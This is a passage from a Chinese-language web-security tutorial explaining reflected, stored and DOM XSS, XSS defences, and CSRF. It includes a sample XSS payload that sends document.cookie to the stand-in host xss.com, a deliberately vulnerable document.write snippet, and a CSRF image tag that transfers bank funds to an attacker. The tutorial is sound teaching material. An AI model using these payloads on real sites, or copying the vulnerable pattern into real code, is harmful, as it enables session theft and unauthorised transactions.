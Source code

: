 复制代码

```
?search=<script>var s=document.createElement('script');s.src=`xss.com?cookie=${document.cookie}`;document.head.append(s);</script>
```

当然这种赤裸裸的发送很容易引起用户警觉，所以一般会转为短网址并且包装成一些带有诱导性文字的超链接，引诱用户点击访问，一旦用户点击就不知不觉地向攻击者发送了自己的 cookie。

存储型和反射型相比破坏性更大，因为存储型的恶意代码存储在数据库等地方，每次访问页面都会触发 XSS。比如一些网站允许用户设置一段个性签名，并且显示在个人主页，攻击者就可以在个性签名中输入恶意代码并提交到服务端，如果这段代码没有进行任何处理直接存储到数据库，那么其他用户访问这个个人主页的时候都会执行这段恶意代码。

DOM 型 XSS 可以看作一种特殊的反射型 XSS，它也是一种非持久型 XSS，不过相对于反射型 XSS 而言它不需要经过服务端。比如在上面的例子中，如果把解析 URL 参数 search 的逻辑放在前端页面进行，那么攻击类型就属于 DOM 型。

复制代码

```
<script> 

  var search = location.search.replace('?search=', '') 

  document.write("你搜索了 :" + decodeURI(search)) 

</script>
```

#### XSS 防御手段

**参数校验**。对于 HTTP 请求的 URL 参数和请求体 payload 的数据进行校验，比如我们接收的数据是用户年龄，那么在后端，需要判断一下数据是否是 Number，对于不符合校验规则的数据及时抛出错误。

**字符转义**。对于一些特殊符号，比如“<”“>”“&”“"”“'”“/”，我们需要对其进行转义，后端接收这些代码时候的转义存储，前端在显示的时候，再把它们转成原来的字符串进行显示。

对于用户输入的字符串内容，不要使用 eval、new Function 等动态执行字符串的方法，也不要将这些字符串通过 innerHTML、outerHTML、document.write() 方式直接写到 HTML 中。对于非客户端 cookie，比如保存用户凭证的 session，将其设置为 http only，避免前端访问 cookie。

### 跨站请求伪造（Cross-site Request Forgery，CSRF/XSRF）

CSRF 攻击就是在受害者毫不知情的情况下以受害者名义伪造请求发送给受攻击站点，从而在并未授权的情况下执行在权限保护之下的操作。和 XSS 攻击方式相比，CSRF 并不需要直接获取用户信息，只需要“借用”用户的登录信息相关操作即可，隐蔽性更强。

#### CSRF 攻击示例

下面以一个示例来说明 CSRF 的攻击原理。

比如，用户 A 在银行有一笔存款，通过对银行的网站发送请求：http://bank.com/withdraw?amount=100&to=B。

可以让 A 把 100 的存款转到 B 的账号下。通常情况下，该请求发送到网站后，服务器会先验证该请求是否来自一个合法的 session，验证成功后代码用户 A 已经成功登录。

攻击者 C 就可以通过替换 URL 中的参数把钱转入自己的账户中，但这个请求必须由 A 发出。所以他先自己做一个网站，在网站中放入如下代码：

复制代码

```
<img src="http://bank.com/withdraw?amount=100&to=C" />
```

然后通过广告等方式诱使 A 来访问他的网站，当 A 访问该网站时，浏览器就会附带上 cookie 发出的转账请求。大多数情况下，该请求可能会失败，因为他要求 A 的认证信息。但是，如果 A 当时恰巧刚访问这个网站不久，他的浏览器与网站之间的 session 尚未过期，浏览器的 cookie 中含有 A 的认证信息。那么此时这个请求就会成功，钱将从用户 A 的账号转移到攻击者 C 的账号，而 A 对此毫不知情。
